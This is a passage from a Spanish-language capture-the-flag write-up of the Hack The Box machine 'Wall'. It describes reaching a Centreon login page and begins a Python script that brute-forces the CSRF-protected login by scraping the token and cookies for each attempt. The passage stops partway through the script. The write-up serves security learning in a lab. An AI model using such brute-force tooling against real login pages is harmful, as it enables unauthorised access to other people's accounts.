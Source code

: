 Como podemos ver en el `Response` el código retornado nos muestra una etiqueta `<meta>` con un refresh, lo que significa que con `POST` podemos bypassear esto. Así que podemos ir directamente a http://10.10.10.157/centreon. 

![Centreon Software](images/htb/wall/centreon.png)

[Centreon](https://www.centreon.com/) es un sistema de monitoreo de aplicaciones, sistemas y redes de código abierto, nos dice la Wikipedia.

Tres cosas hice en este punto:

1. Intentar [credenciales por defecto](https://documentation.centreon.com/docs/centreon/en/2.8.x/installation/from_VM.html). 
2. Hacer brute-force al login.
3. Buscar vulnerabilidades conocidas para la versión v19.04.

El problema con el punto #2 es que este formulario tiene protección de `CSRF` por lo que no podemos usar **Hydra**. Por eso hice el siguiente script en Python para hacer brute-force al formulario de login.

```python
#!/usr/bin/env python

import requests
from bs4 import BeautifulSoup

url = 'http://10.10.10.157/centreon/index.php'
proxies = { 'http': 'http://127.0.0.1:8080' } # BurpSuite proxy
#wordlist_file = '/usr/share/wordlists/rockyou.txt'
wordlist_file = 'passwords.txt'

def get_token(html):
    soup = BeautifulSoup(html, 'html.parser')
    token_input = soup.find('input',attrs={'name': 'centreon_token'}) 
    token = token_input['value'] if token_input else None

    return token
 
def get_token_and_cookies():
    resp = requests.get(url, proxies=proxies)
    
    if resp:
        cookies = resp.headers['Set-Cookie'].split(';')[0] # I don't want 'Path = /' one
        token = get_token(resp.text)
        
        return token,cookies
    else:
        print("Request failed")
    

def login(username, password, token, cookies, proxies=None):
    _data = { 
              'useralias': username, 
              'password': password, 
```
